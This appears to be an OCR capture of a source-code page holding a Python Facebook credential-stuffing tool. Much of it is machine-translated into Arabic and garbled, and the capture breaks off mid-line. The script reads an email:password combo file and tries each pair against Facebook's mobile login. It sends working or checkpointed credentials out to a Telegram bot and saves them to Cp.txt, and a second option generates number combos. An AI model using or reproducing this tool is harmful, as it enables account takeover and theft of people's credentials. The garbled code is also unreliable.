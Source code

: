 
     uuid استيراد
باستثناء :
    نظام التشغيل . النظام ( "pip install uuid" )

جرب :
    من  الاستيراد العشوائي  * 
باستثناء :
    نظام التشغيل . systeam ( "تثبيت عشوائي" )

جرب :
     سلسلة الاستيراد
باستثناء :
    نظام التشغيل . نظام ( "سلسلة تثبيت نقطة" )

جرب :
     طلبات الاستيراد
باستثناء :
    نظام التشغيل . النظام ( "طلبات تثبيت النقطة" )

جرب :
    من  استيراد user_agent  create_user_agent 
باستثناء :
    نظام التشغيل . النظام ( "pip install user_agent" )

جرب :
    من  تاريخ  استيراد  ووقت وتاريخ
باستثناء :
    نظام التشغيل . النظام ( "تاريخ تثبيت النقطة" )

جرب :
     وقت الاستيراد
باستثناء :
    نظام التشغيل . النظام ( "وقت تثبيت النقطة" )
آخر :
    نظام التشغيل . نظام ( "واضح" )
    جرب :
        استيراد  pyfiglet
    باستثناء :
        نظام التشغيل . النظام ( "pip install pyfiglet" )
    آخر :
        نظام التشغيل . نظام ( "واضح" )
        استيراد  pyfiglet ، نظام التشغيل
        من  وقت  استيراد  النوم
        استيراد  متصفح الويب
        Z  =  ' \ x1b [2 ؛ 31 م'
        G  =  ' \ x1 ب [1 ؛ 32 م'            
        استيراد  عشوائي ، uuid ، طلبات ، سلسلة
        من  استيراد user_agent  create_user_agent 
        من  تاريخ  استيراد  ووقت وتاريخ
        من  الاستيراد العشوائي  * 
        من  وقت  استيراد  النوم
         طلبات الاستيراد ، نظام التشغيل ، عشوائي ، json ، خيوط ، أسرار ، uuid
        من  كولوراما  استيراد  فور ، ستايل
        من  وقت  استيراد  النوم
        من  تاريخ  استيراد  ووقت وتاريخ
        من  أسرار  استيراد  token_hex
        من  uuid  استيراد  uuid4
        من  استيراد user_agent  create_user_agent 
        من  uuid  استيراد  uuid4
Z  =  ' \ 033 [1؛ 31m'  # احمر
X  =  ' \ 033 [1؛ 33m'  # أصفر
Z1  =  ' \ 033 [2؛ 31m'  # احمر ثاني
F  =  ' \ 033 [2 ؛ 32 م'  # اخضر
أ  =  ' \ 033 [2؛ 34 م' # ازرق
C  =  ' \ 033 [2؛ 35m'  # وردي
B  =  ' \ 033 [2؛ 36m' # سمائي
K  =  ' \ 033 [1؛ 34m'  # ازرق فاتح
def  AAlosh ( ق ):
	لـ  AAlosh  في  s  +  ' \ n ' :
		sys . stdout . اكتب ( هلوش )
		sys . stdout . تدفق ()
		النوم ( 50.  /  700 )
		sys . خروج ()   
		
  
        
AAlosh  =  F + "" "
   Suhaib Saqr 🤚               
             ح

               برقية: @ horo4
================================
                                            اشترك في قنواتي لتشتغل لاداه
================================
\ 033 [1 ؛ 33 م
[1] crak دخول اداه صيد فيس
\ 033 [2؛ 36 م
[2] crak صنع كومبو ارقام                     
""                       

نظام التشغيل . نظام ( "واضح" )
ص  =  الطلبات . جلسة ()
طباعة ( AAlosh )



الأدوات  =  الإدخال ( C + 'اختر:' + B )
# ================================

إذا ( الأدوات  ==  '1' ):
	نظام التشغيل . نظام ( "واضح" )
	
	متصفح الويب . فتح ( 'https://youtu.be/Q1BYx2n2Wm0' )
	نظام التشغيل . نظام ( "واضح" )
	المعرف  =  الإدخال ( X + "[" + Z + "!" + X + "]" + F +  "ID Bot: \ n " + B )
	متصفح الويب . فتح ( "https://2u.pw/Czlyf" )
	tok  =  input ( X + "[" + Z + "!" + X + "]" + F + 'TOken Bot: \ n ' + B )
	متصفح الويب . فتح ( "https://t.me/KaBousVIP" )
	ملف  =  إدخال ( X + "[" + Z + "!" + Z + "]" + F +  "combo: \ n " + B )
	طباعة ( ب )
	طباعة ( "-" * 50 )
	اللعنة =  فتح ( ملف ، 'r' )
	
	
	
	
	بينما  صحيح :
		المستخدم  =  اللعنة . readline (). انقسام ( ' \ n ' ) [ 0 ]
		الشميل  =  المستخدم . انقسام ( ':' ) [ 0 ]
		Aloshps  =  المستخدم . انقسام ( ':' ) [ 1 ]
		link  =  "https://mobile.facebook.com/login.php"
		data  = { 'email' : Aloshmil ، 'pass' : Aloshps }
		رؤوس  = {
'User-Agent' : 'Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B',
'Accept-Language' : 'en-US,en;q=0.5'}
		shot = requests.post(link, headers=headers, data=data).text
		if "xc_message" in shot:
			print(F+ ' Email ==> : ' + Aloshmil + ': pass ==> : ' + Aloshps)
			r.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text= Hi Pro Fishing Facebook From Alosh‌‌ \n ====================\n.√. Email   (  {Aloshmil}  )\n.√. password  (  {Aloshps}  )\n ====================\n By :- @BBBBBLL :-  Horo4 √ " )
		elif "checkpointSubmitButton-actual-button" in shot:
			print(X+ ' Email ==> : ' + Aloshmil + ': pass ==> : ' + Aloshps)
			r.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=			Hi Pro Fishing Facebook From Alosh‌‌  سيكور \n ====================\n.√. Email   (  {Aloshmil}  )\n.√. password  (  {Aloshps}  )\n ====================\n By :- @BBBBBLL :-  Horo4 √ " )
			
			with open("Cp.txt",'a') as ff:
				ff.write("Email : "+Aloshmil+"\nPass : "+Aloshps+"\n\n")     
				
			
		else:
			print(Z+ ' Email ==> : ' + Aloshmil + ': pass ==> : ' + Aloshps)
			
#alosh##################.########.####
		
#owowiiwiqiqqii

if (TOOLS == '2'):
	
	os.system('clear')
	
import random
make = "0987654321"
h = 0

while h<10000:
	c = str(''.join(random.cho
